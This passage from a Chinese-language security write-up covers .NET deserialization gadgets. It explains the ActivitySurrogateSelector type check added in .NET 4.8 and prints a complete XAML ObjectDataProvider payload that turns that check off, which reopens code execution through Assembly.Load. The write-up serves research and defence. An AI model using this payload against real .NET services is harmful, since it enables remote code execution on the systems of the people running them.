                catch
                {
                    bag = new Hashtable();
                }
            }
```

不同的是这里有 try catch 这样可以确保加载代码执行完成后不会报错。

```plain
byte[] -> Assembly.Load -> Assembly -> Assembly.GetType -> Type[] -> Activator.CreateInstance -> Win!
```

### 补丁绕过

我们将手工设置`DisableActivitySurrogateSelectorTypeCheck`给取消会发现这段代码序列化和反序列化都会失败

[](https://xzfile.aliyuncs.com/media/upload/picture/20231108202736-32c3b482-7e32-1.png)

在.NET 4.8 开始，微软修复了 ActivitySurrogateSelector 的漏洞，具体代码实现在`ActivitySurrogateSelector+ObjectSurrogate`类中的`GetObjectData`方法有这么一个判断

```plain
//System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSurrogate
public void GetObjectData(object obj, SerializationInfo info, StreamingContext context)
            {
                if (!AppSettings.DisableActivitySurrogateSelectorTypeCheck && !(obj is ActivityBind) && !(obj is DependencyObject))
                {
                    throw new ArgumentException("obj");
                }
```

`AppSettings.DisableActivitySurrogateSelectorTypeCheck` 这个为 false，并且序列化对象不为`ActivityBind`或`DependencyObject`类型，即走入判断抛出异常，所以我们需要设置`AppSettings.DisableActivitySurrogateSelectorTypeCheck` 为 true。

《[Re-Animating ActivitySurrogateSelector](https://silentbreaksecurity.com/re-animating-activitysurrogateselector/)》使用`TextFormattingRunPropertiesMarshal`

结合`ObjectDataProvider`和`XamlReader`来执行`System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");`的操作

payload 如下：

```plain
<ResourceDictionary
    xmlns="https://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="https://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:c="clr-namespace:System.Configuration;assembly=System.Configuration"
    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib">
    <ObjectDataProvider x:Key="type" ObjectType="{x:Type s:Type}" MethodName="GetType">
        <ObjectDataProvider.MethodParameters>
            <s:String>System.Workflow.ComponentModel.AppSettings, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="field" ObjectInstance="{StaticResource type}" MethodName="GetField">
        <ObjectDataProvider.MethodParameters>
            <s:String>disableActivitySurrogateSelectorTypeCheck</s:String>
            <r:BindingFlags>40</r:BindingFlags>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="set" ObjectInstance="{StaticResource field}" MethodName="SetValue">
        <ObjectDataProvider.MethodParameters>
            <s:Object/>
            <s:Boolean>true</s:Boolean>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="setMethod" ObjectInstance="{x:Static c:ConfigurationManager.AppSettings}" MethodName ="Set">
        <ObjectDataProvider.MethodParameters>
            <s:String>microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck</s:String>
            <s:String>true</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

### 参考文章

[https://paper.seebug.org/1418/#typeconfusedelegate](https://paper.seebug.org/1418/#typeconfusedelegate)

[https://github.com/Y4er/dotnet-deserialization/blob/main/SoapFormatter.md](https://github.com/Y4er/dotnet-deserialization/blob/main/SoapFormatter.md)

[https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html](https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html)

[https://www.netspi.com/blog/technical/adversary-simulation/re-animating-activitysurrogateselector/](https://www.netspi.com/blog/technical/adversary-simulation/re-animating-activitysurrogateselector/)
